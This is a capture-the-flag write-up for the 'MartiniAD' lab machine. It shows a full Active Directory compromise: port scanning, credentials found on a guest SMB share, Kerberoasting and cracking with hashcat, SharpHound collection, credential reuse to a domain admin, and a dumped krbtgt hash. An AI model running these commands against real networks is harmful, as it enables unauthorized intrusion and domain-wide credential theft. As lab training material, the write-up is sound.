## Introduction
This is the writeup for HackSmarter's MartiniAD machine 🍷 (Released roughly 2 hours ago from time of writing).
It's really grounded in terms of OSCP fundamentals (Especially credential reuse!). The machine also teaches alternatives to bloodhound gathering from an external perspective (Usage of sharphound internally).
In this writeup, I'll also detail all my steps taken to show my thinking process.
**Note that I didn't properly follow certain fundamentals like checking every service before moving on to the next step given that I wanted to complete this ASAP since if you check the screenshots, it's very late! This works because this is a CTF, but in a proper engagement, don't do this. You'll get screwed over by the client since you should be checking everything. For example, I got chewed out 7 or so hours ago.**

## Enumeration
Without any provided information on open services, the first thing to do is to enumerate the target and discover which ports are open.
```zsh
[2026-05-14 21:54:23] kali@kali:~/Desktop/tools/SMB_Killer$ nmap -T4 -p- -A 10.1.169.253 --min-rate 1000 -oN martiniAD-nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-14 22:02 +08
Nmap scan report for dry.martini.bars (10.1.169.253)
Host is up (0.27s latency).
Not shown: 65524 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server
|_ssl-date: TLS randomness does not represent time
| rdp-ntlm-info: 
|   Target_Name: DRY
|   NetBIOS_Domain_Name: DRY
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: DRY.MARTINI.BARS
|   DNS_Computer_Name: DC01.DRY.MARTINI.BARS
|   DNS_Tree_Name: DRY.MARTINI.BARS
|   Product_Version: 10.0.26100
|_  System_Time: 2026-05-14T14:06:18+00:00
| ssl-cert: Subject: commonName=DC01.DRY.MARTINI.BARS
| Not valid before: 2026-01-16T01:19:23
|_Not valid after:  2026-07-18T01:19:23
49677/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49708/tcp open  msrpc         Microsoft Windows RPC
50281/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3389-TCP:V=7.95%I=7%D=5/14%Time=6A05D694%P=x86_64-pc-linux-gnu%r(Te
SF:rminalServerCookie,13,"\x03\0\0\x13\x0e\xd0\0\0\x124\0\x02\?\x08\0\x02\
SF:0\0\0");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 3 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-05-14T14:06:21
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   282.45 ms 10.200.0.1
2   ...
3   283.53 ms dry.martini.bars (10.1.169.253)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 259.61 seconds
```

From the quick nmap scan (I ran it with `--min-rate 1000` for a reason!), a few things stand out:
- SMB is open on 139,445
- LDAP is seemingly not open, **but 636 is open**. 636 is a port for LDAPS, which is essentially LDAP + SSL. Therefore, this could be because of the `--min-rate 1000` which might miss a few things in exchange for speed, or maybe because LDAPS is supposed to be used
- 5985/5986 (winRM), and 3389 (RDP) aren't shown. This is very definitely due to the `--min-rate 1000` flag


Why did I use `--min-rate 1000` if it leads to so many missing findings? It's because I'm treating this as a CTF, which prioritises speed. **In a proper engagement, definitely don't do that** since if you miss something, and the client has an internal red team (especially if it's a government agency who contracts external PT's for compliance purposes), you will get really seriously screwed.

For exams like the OSCP, feel free to use `--min-rate 1000` and the moment you get say a finding like a HTTP port on 80, you can rerun the nmap scan while enumerating the discovered service. 


Therefore, sequentially, the first thing to examine is the SMB shares.
Before starting, don't forget to update your `/etc/hosts`!


### SMB Share 'Notes'
Run `nxc smb 10.1.169.253 -u 'a' -p '' --shares` and find an exposed notes share which we can READ and WRITE as a GUEST user.


Enter it with smbclient and download the `notes.txt` inside.
```zsh
[2026-05-14 21:47:27] kali@kali:~/Desktop/HackSmarter/MartiniAD$ smbclient -U 'a' //10.1.169.253/notes
Password for [WORKGROUP\a]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu May 14 21:45:44 2026
  ..                                DHS        0  Sun Jan 18 00:38:33 2026
  notes.txt                           A      129  Sun Jan 18 00:38:47 2026

                7731967 blocks of size 4096. 1400549 blocks available
```

Download it with `get`
```zsh
smb: \> get notes.txt
getting file \notes.txt of size 129 as notes.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

Upon reading it, we have obtained credential of `mprice:*martini*`



It's your choice to add the credentials to a `usernames.txt` and `passwords.txt` text file. I usually do since I can keep track of it and just keep spraying the file rather than having to type out the credentials everytime. 


I check the credentials using `nxc smb` just to validate that they work and ensure that I don't have to attempt round two of password spraying/password guessing.


However, I can't winRM, RDP, or really do anything useful to further improve my position on the target `dry.martini.bars` environment. Hence, the aim is to find more usernames.

### Further enumeration of all valid users on the domain
```zsh
[2026-05-14 21:50:05] kali@kali:~/Desktop/HackSmarter/MartiniAD$ nxc smb 10.1.169.253 -u usernames.txt -p passwords.txt --users
```


We can now see 2(+1) extra intersting users that we previously didn't *really* know about.
1) athena.t0
2) athena_svc
3) Administrator (There's always going to be an administrator to be honest...)


You **might have attempted to bloodhound** and received an error about SSL. This is the problem about usage of LDAPS rather than LDAP.

This is because `netexec` uses `impacket` under the hood (it's essentially a wrapper), and `impacket` does not handle LDAP signing. So if LDAP signing is enforced, `netexec` will try to authenticate on LDAPS and without a configured PKI, LDAPS won't work. 

On hindsightm, it's possible to check this with `-M ldap-checker` but I forgot 😅


We now have a user of interest `athena_svc`. The standard naming convention of services is `SERVICE_svc`, such as `mssql_svc`. Therefore, although it's unknown what service `athena_svc` is (it could be some form of locally hosted Amazon's Athena), it's very likely a service.

Therefore, my thinking is now:
- Kerberoast `athena_svc`
- Crack the krbtgt ticket to get a weak credential
- Use said credential to authenticate as `athena_svc` 
- Abuse `SeImpersonatePrivilege` to escalate to Administrator (Because services usually have this privilege attached since during setup + daily work, switching accounts will make a SysAdmin froth.)

## Kerberoast 
I attempt the kerberoast and successfully get credentials of `athena_svc`
```zsh
[2026-05-14 22:02:38] kali@kali:~/Desktop/HackSmarter/MartiniAD$ nxc ldap 10.1.169.253 -u 'mprice' -p '*martini*' --dns-server 10.1.169.253 --kerberoasting kerberoast.txt
```


With the valid hash, I crack it with module 13100 of hashcat
```zsh
[2026-05-14 22:04:22] kali@kali:~/Desktop/HackSmarter/MartiniAD$ hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt --force
```
And get an expectedly weak password of `1dirtymartini`


Therefore, I immediately test for winrm with the new credentials, and am successful, leading to an **initial foothold**.




## Initial Foothold to DA
With the valid winrm session, there's a need to enumerate the AD environment, since I have no clue how to proceed. It could be anything from a certificate to me needing to perform password take over of users. 
It is possible to enumerate the AD environment internally via `SharpHound`. It's the 'protocol' used by Bloodhound to enumerate environments from an external perspective actually!

If it's not on your kali, just installed it with `sudo apt install sharphound`. After that:
```zsh
sharphound -h
``` 
To be brought to the sharphound directory at `/usr/share/sharphound`, and transfer over the `SharpHound.exe` executable onto the target machine. 

To run it, just do `.\SharpHound.exe` and it'll generate a zip file with the loot. After that, transfer it over locally via evil-winrm's download module and ingest into your local bloodhound instance!

```zsh
*Evil-WinRM* PS C:\Users\Athena_svc\Desktop> .\SharpHound.exe
...
2026-05-14T10:16:26.6063428-04:00|INFORMATION|SharpHound Enumeration Completed at 10:16 AM on 5/14/2026! Happy Graphing!
*Evil-WinRM* PS C:\Users\Athena_svc\Desktop> download 20260514101625_BloodHound.zip .
```

After ingesting, there's a few things I noticed:
1) `athena.t0` is a Domain Administrator on the environment


2) The shortest path to DA involves our found user `athena_svc`


However, this path involves two things:
1) `CanPSRemote`
2) `DCSync`

We don't need to PSRemote since we already have a winRM shell. And we definitely can't DCSync because `athena_svc` is not a local Admin. 

### Credential Reuse 
The solution is actually trivial. 
I noted that `athena.t0` literally has the same name as `athena_svc` and thought about the potential for credential reuse.

```zsh
[2026-05-14 23:19:12] kali@kali:~/Desktop/HackSmarter/MartiniAD$ nxc smb 10.1.227.1 -u 'athena.t0' -p '1dirtymartini'     
SMB         10.1.227.1      445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.1.227.1      445    DC01             [+] DRY.MARTINI.BARS\athena.t0:1dirtymartini (Pwn3d!)
```

Surprisingly, it works and `athena.t0` being the DA, is an Administrator. Hence, just dump out the `ntds.dit` and complete the machine by copying over krbtgt's NT hash


This could have been done 15 minutes earlier since I actually spent time enumerating the winrm session to find a Local Privilege Escalation vector.
If only I had sprayed the entire network again with my `usernames.txt` and `passwords.txt`...



```zsh
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:22ebc290e67668629c8d0812662a9c51:::
```
*Remember that the NT hash is the second part since it's LM:NT*

## Learning Points
1) SharpHound.exe is useful on a machine with local access (Wasn't really too needed in this case, but good to have).
2) Defeat forgetting to check for credential reuse via systematically adding credentials to txts, and respraying anytime, everytime!
